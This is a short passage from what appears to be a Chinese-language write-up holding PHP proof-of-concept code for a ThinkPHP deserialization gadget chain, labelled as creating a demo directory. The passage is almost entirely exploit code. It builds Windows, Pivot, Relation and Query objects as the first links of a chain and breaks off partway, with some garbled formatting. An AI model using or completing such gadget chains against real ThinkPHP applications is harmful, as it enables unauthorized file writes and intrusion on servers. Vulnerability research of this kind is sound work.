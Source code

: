 ![image](../img/97eb01ebb71fca715f09480cb857fc50.png)

### poc 创建demo目录

```
<?php
namespace think\process\pipes;
use think\model\Pivot;
class Pipes{

}

class Windows extends Pipes{

private $files = [];

```
function __construct(){
	$this-&gt;files = [new Pivot()];
} 
```

}

namespace think\model;#Relation

use think\db\Query;

abstract class Relation{

protected $selfRelation;

protected $query;

function __construct(){

$this->selfRelation = false;

$this->query = new Query();#class Query

}

}

namespace think\model\relation;#OneToOne HasOne
```